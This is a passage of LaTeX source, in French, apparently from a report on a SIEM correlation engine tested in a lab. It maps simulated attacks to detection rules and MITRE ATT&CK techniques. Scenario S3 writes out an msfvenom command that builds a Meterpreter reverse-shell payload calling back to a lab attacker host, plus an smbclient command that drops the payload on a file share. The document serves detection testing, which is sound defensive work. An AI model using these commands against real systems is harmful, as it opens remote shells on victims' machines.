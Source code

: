 \documentclass[12pt,a4paper]{article}
\begin{document}
\textbf{Sources corrélées.} filterlog (OPNsense) + daemon/Samba
(Debian Server).

\textbf{Règle déclenchée.} \texttt{SMB\_EXFIL\_001} (Type~3, cooccurrence
\texttt{net\_scan} + \texttt{samba\_read} / 300~secondes).

\textbf{MITRE ATT\&CK.} TA0010 (Exfiltration) / T1021.002
(SMB/Windows Admin Shares).

\subsection{S3 --- Compromission de poste employé (BEC / kill-chain)}

\textbf{Contexte PME.} Un employé reçoit un mail de phishing, télécharge
un fichier joint malveillant, le dépose sur le partage Samba commun, puis
l'exécute depuis son poste Windows.

\textbf{Chaîne d'attaque.}
\begin{enumerate}
    \item Kali génère un payload Meterpreter Windows :
    \texttt{msfvenom -p windows/x64/meterpreter/reverse\_tcp
    LHOST=10.0.1.50 LPORT=4444 -f exe -o payload.exe}
    \item Kali dépose le payload sur le partage Samba :
    \texttt{smbclient //10.0.1.20/commun -U dir1 -c "put payload.exe"}.
    Debian Server journalise l'accès (\texttt{samba\_write}, step~1).
    \item L'employé (simulé) copie le fichier sur Windows. Sysmon
    EventID~11 journalise la création du fichier
    (\texttt{file\_create}, step~2). Le moteur appelle YARA sur le fichier.
    \item L'employé double-clique sur le fichier. Sysmon EventID~1
    journalise l'exécution du processus (\texttt{process\_exec}, step~3).
    \item Le moteur corrèle la séquence ordonnée en 4~heures →
    alerte \texttt{MALICIOUS\_FILE\_EXEC\_001} (CRITICAL), enrichie
    du match YARA.
\end{enumerate}

\textbf{Sources corrélées.} daemon/Samba (Debian Server) + Sysmon
EventID~1 et 11 (Windows~10).

\textbf{Règle déclenchée.} \texttt{MALICIOUS\_FILE\_EXEC\_001} (Type~2,
3 étapes séquentielles, fenêtre 4~heures, corrélation par
\texttt{actor\_user}).

\textbf{MITRE ATT\&CK.} TA0002 (Execution) / T1204.002
(User Execution: Malicious File).
\end{document}
